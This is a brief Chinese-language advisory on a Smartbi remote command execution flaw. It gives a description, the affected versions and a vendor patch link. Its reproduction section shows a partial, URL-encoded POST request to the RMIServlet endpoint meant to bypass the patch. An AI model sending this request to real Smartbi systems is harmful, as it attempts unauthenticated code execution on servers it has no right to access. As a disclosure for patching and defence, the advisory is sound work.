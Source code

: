 # Smartbi 远程命令执行漏洞

## 漏洞描述

Smartbi 大数据分析平台存在远程命令执行漏洞，未经身份认证的远程攻击者可利用 stub 接口构造请求绕过补丁限制，进而控制 JDBC URL，最终可导致远程代码执行或信息泄露。

## 漏洞影响

```
v7 <= Smartbi <= v10.5.8
```

## 漏洞复现

```
POST /smartbi/vision/RMIServlet?windowUnloading=&%7a%44%70%34%57%70%34%67%52%69%70%2b%69%49%70%69%47%5a%70%34%44%52%77%36%2b%2f%4a%
```

## 漏洞修复

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://www.smartbi.com.cn/patchinfo